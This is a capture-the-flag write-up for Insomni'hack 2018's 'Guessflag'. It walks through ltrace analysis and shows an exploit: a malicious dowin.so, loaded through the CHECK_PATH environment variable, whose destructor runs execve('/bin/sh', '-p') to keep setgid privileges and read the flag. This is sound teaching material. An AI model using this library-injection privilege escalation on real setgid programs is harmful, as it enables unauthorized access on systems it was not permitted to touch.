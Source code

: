 # Guessflag

Guessflag was a warmup pwn at **Insomni'hack 2018**. It was a fairly easy challenge, but we struggled a lot on small details.

## The challenge

We were given ssh access to a remote server, and the challenge was in `/home/flag` there.
There we could find a shared lib (`dowin.so`), the main binary (`guessflag`), and a text file (`flag.txt`).

We could see that `guessflag` **was setgid** and that **the owner of both the** `flag.txt` **file and the** `guessflag` **binary was part of the group "flag".**

```bash
user1@insomniak:/home/flag$ ls -al
total 32
drwxr-xr-x  2 root root  4096 Mar 26 13:18 .
drwxr-xr-x 12 root root 4096 Mar 26 12:50 ..
-rwxr-xr-x  1 root root  7512 Mar 26 12:50 dowin.so
-rwxr-sr-x  1 root flag  8520 Mar 26 12:51 guessflag
-rw-r-----  1 root flag   262 Mar 26 13:18 flag.txt
```

With this information, we knew that we'd probably have to exploit the `guessflag` binary to run commands as a member of the "flag" group in order to read `flag.txt`, which most likely contains the flag.

## Analysis

Let's start with some analysis of the binary.

First we look at the output of the `file` command:

```bash
user1@insomniak:/home/flag$ file guessflag                                                                                                                      
guessflag: setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, not stripped
```

It tells us that `guessflag` is **compiled as a dynamic binary**, which means that it relies on the `libc` of the remote server for standard functions like `printf` et al.! We could make it use our own standard function using  [LD_PRELOAD trick](https://www.goldsborough.me/c/low-level/kernel/2016/08/29/16-48-53-the_-ld_preload-_trick/), but from our little experience, we know that **LD_PRELOAD is ignored when the binary is setuid or setgid**, which is the case here.

So let's move on and look at the output of `ltrace`.

```bash
user1@insomniak:/home/flag$ ltrace ./guessflag                                                                                                                    
puts("Can you guess the flag ?"Can you guess the flag ?
)                                                                                        = 25
+++ exited (status 255) +++
```

Nothing fancy here, let's try with an argument.

```bash
user1@insomniak:/home/flag$ ltrace ./guessflag arg                                                                                                                   
puts("Can you guess the flag ?"Can you guess the flag ?
)                                                                                        = 25
getenv("CHECK_PATH")                                                                                                    = nil
snprintf("(null)/dowin.so", 1024, "%s/dowin.so", nil)                                                                   = 15
dlopen("(null)/dowin.so", 1)                                                                                            = 0
+++ exited (status 255) +++
```

Uuh! Looks like it **first checks if we passed an argument, and if so, tries to get the content of the environment variable CHECK_PATH**.

Let's try to set this variable : 

```bash
user1@insomniak:/home/flag$ CHECK_PATH=test ltrace ./guessflag arg                                                                                                   
puts("Can you guess the flag ?"Can you guess the flag ?
)                                                                                        = 25
getenv("CHECK_PATH")                                                                                                    = "test"
snprintf("test/dowin.so", 1024, "%s/dowin.so", "test")                                                                  = 13
dlopen("test/dowin.so", 1)                                                                                              = 0
+++ exited (status 255) +++
```

Alright, so it looks like it **appends the content of CHECK_PATH to the string "/dowin.so" and then tries to use `dlopen` on it**. This means that if we set the CHECK_PATH variable to something like `/tmp/pld` and create our own `dowin.so` in this directory, it will load it !

## Exploit

I had never met the `dlopen` function before, but it's really straightforward.
It simply opens a shared object whose path is passed as a parameter and gives you the ability to execute the functions it provides.

The problem here is that we can not create just any random function and simply load our library, as it would never get called.

We struggled a bit here, and [Geluchat](https://dailysecurity.fr) gave us a neat trick: **it is possible to use the [.fini section](http://l4u-00.jinr.ru/usoft/WWW/www_debian.org/Documentation/elf/node3.html) by creating a destructor in our custom `dowin.so`, and which will execute when the lib is unloaded** (*i.e. when the binary exits, here*).

We ended up with the following payload:

```c
#include <unistd.h>

void begin (void) __attribute__((destructor));

void begin (void) {
	system("id && whoami");
}


```

We set up the exploit in tmp: 

```bash
user1@insomniak:/home/flag$ mkdir /tmp/pld && cd /tmp/pld
user1@insomniak:/tmp/pld$ gcc -o dowin.so -fPIC -shared payload.c
user1@insomniak:/tmp/pld$ export CHECK_PATH=/tmp/pld ./guessflag a
Can you guess the flag ?
uid=1005(user1) gid=985(users) groups=985(users)
user1
```

Yeah nice, our destructor got executed!
But, wait… The permissions were dropped :( WHHHhhyYyyy ?

We struggled for about 2 hours on this, and then asked for a bit of help to a member of Securimag.

He told us that on this machine, /bin/sh was a symlink to /bin/bash, **which drops the setuid and setgid permissions by default when it is called**.

Using `man system`, we can easily figure out that `system()` simply calls `/bin/sh` with the argument it is passed.

He also told us that **the `-p` argument on `/bin/sh` prevents it from dropping the permissions**.

That gave us our second payload: 

```c
void begin (void) __attribute__((destructor));

void begin (void) {
	char *envp[] = { NULL };
	char *argv[] = { "/bin/sh", "-p", NULL };
	execve("/bin/sh", argv, envp);
}
```

We compile and run it…

```
user1@insomniak:/tmp/pld$ gcc -o dowin.so -fPIC -shared payload.c
user1@insomniak:/tmp/pld$ CHECK_PATH=/tmp/pld ./guessflag a
Can you guess the flag ?
user1@insomniak:/tmp/pld$ id
uid=1005(user1) gid=985(users) groups=985(users), 990(flag)
```

Yay! We got a shell in the `flag` group :D

```
user1@insomniak:/tmp/pld$ cat /home/flag/flag.txt
INS{th4t_library_was_usele$$}
```

Aaand… **Flagged!**
